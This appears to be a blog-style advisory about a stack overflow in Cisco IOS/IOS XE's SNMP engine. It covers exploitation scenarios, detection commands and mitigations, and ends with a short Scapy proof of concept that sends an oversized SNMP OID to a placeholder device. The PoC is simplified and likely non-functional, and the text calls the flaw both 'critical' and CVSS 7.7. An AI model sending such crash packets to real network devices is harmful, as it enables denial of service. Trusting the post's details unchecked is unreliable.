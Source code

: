 # SNMPocalypse-Cisco-Bug-Lets-Hackers-Crash-or-Command-Devices
CVE-2023-20352 is a critical stack overflow flaw in Cisco IOS/IOS XE's SNMP engine. With just crafted SNMP packets, remote attackers can crash systems or seize root control. All SNMP versions are vulnerable patch now or risk total compromise

*By Mark Malllia*

#### Introduction to SNMP
Simple Network Management Protocol (SNMP) is a foundational protocol in network administration, enabling system administrators to monitor, configure, and manage network devices. It operates on ports 161 (for SNMP requests) and 162 (for traps). SNMP supports three versions: v1, v2c, and v3, each offering varying levels of security.This one hits close to home my thesis focused on SNMP, and Cisco remains a staple in my daily work. 

SNMP's utility extends to real-time monitoring, inventory management, and fault detection across networks. Despite its importance, SNMP's role in network management also poses security risks when not properly secured, as seen in the CVE-2023-20352 vulnerability.

#### What Went Wrong: CVE-2023-20352 Explained
CVE-2023-20352 is a high-severity stack-based buffer overflow flaw affecting Cisco IOS and IOS XE devices. It resides in the SNMP subsystem, which processes network management traffic.

**Technical Details:**
- **Vulnerability Type:** Stack-based Buffer Overflow (CWE-121)
- **CVSS Score:** 7.7 (High)
- **Impact:** Potential Denial of Service (DoS) or Remote Code Execution (RCE)

The vulnerability is triggered by crafted SNMP packets sent to a vulnerable device, causing improper bounds checking and a stack overflow. All SNMP versions are affected.

#### Exploitation Scenarios
1. **Low Privilege Attack:**
   - **Access Required:** SNMPv2c read-only string or SNMPv3 credentials.
   - **Impact:** Device reload (DoS).

2. **High Privilege Attack:**
   - **Access Required:** SNMPv1/v2c string with privilege 15 credentials.
   - **Impact:** Full RCE as root.

#### Detection & Verification
To detect vulnerabilities, administrators can use the following CLI commands:
```bash
show running-config | include snmp-server community
show running-config | include snmp-server group
show snmp
```

#### Lock It Down: Mitigation Moves
- **Patch Application:** Cisco has released firmware patches for affected platforms.
- **Restrict SNMP Access:** Limit access to trusted IPs if you aren't already.
- **Disable Vulnerable OIDs:** Use commands like `snmp-server view <view-name> <OID> excluded`.

#### How Attackers Can Exploit It
A conceptual PoC using Python and Scapy demonstrates exploitability:

```python
from scapy.all import *

# Replace with target IP and SNMP community string
target_ip = "192.168.1.1"
community = "public"

# Craft malicious packet
payload = b"A" * 1024  # Overflow buffer
packet = IP(dst=target_ip)/UDP(dport=161)/SNMP(community=community, PDU=SNMPget(varbindlist=[SNMPvarbind(oid=payload)]))

send(packet)
```

**Note:** This is a simplified example. Actual exploitation requires precise payload crafting and privilege escalation.

#### Conclusion
The CVE-2023-20352 vulnerability underscores SNMP's critical role and associated risks. Organizations must prioritize patching and securing SNMP configurations to mitigate threats, ensuring network resilience against emerging attacks.
